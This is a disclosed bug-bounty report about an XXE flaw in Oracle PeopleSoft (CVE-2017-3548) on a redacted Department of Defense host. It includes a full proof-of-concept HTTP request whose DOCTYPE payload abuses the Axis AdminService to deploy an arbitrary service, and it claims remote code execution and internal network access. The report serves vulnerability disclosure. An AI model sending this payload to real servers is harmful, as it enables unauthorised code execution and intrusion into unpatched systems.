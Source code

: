 # XXE with RCE potential on the https://█████████ (CVE-2017-3548)

## Report Details
- **Report ID**: 710654
- **URL**: https://hackerone.com/reports/710654
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-10-09T18:41:26.984Z
- **Disclosed**: 2024-07-19T14:31:50.271Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
Hello. I was able to identify XXE on the https://███████
It is CVE in Oracle PeopleSoft (CVE-2017-3548)

##POC
I determined that instance is available on localhost port 80, so it's possible to access `/pspc/services/AdminService` via XXE:

```
POST /PSIGW/PeopleSoftServiceListeningConnector HTTP/1.1
Host: ████████
Content-Type: application/xml
Content-Length: 608

<!DOCTYPE a PUBLIC "-//B/A/EN" "http://localhost:80/pspc/services/AdminService?method=%21--%3E%3Cns1%3Adeployment+xmlns%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22+xmlns%3Ajava%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22+xmlns%3Ans1%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22%3E%3Cns1%3Aservice+name%3D%22h1testservice%22+provider%3D%22java%3ARPC%22%3E%3Cns1%3Aparameter+name%3D%22className%22+value%3D%22org.apache.pluto.portalImpl.Deploy%22%2F%3E%3Cns1%3Aparameter+name%3D%22allowedMethods%22+value%3D%22%2A%22%2F%3E%3C%2Fns1%3Aservice%3E%3C%2Fns1%3Adeployment">
```
where `h1testservice` is test service name I'm trying to create.

The result:
```
https://██████████/pspc/services/h1testservice
```
█████
I created new service on server.

It's possible to go further like other researcher did in the #227880 but I don't think that dropping shell is necessary (since it's already proved that we can create our Apache Axis service.

##Suggested fix
Patch Oracle PeopleSoft instance.

## Impact

Remote code execution, internal network access.

## Attachments
No attachments
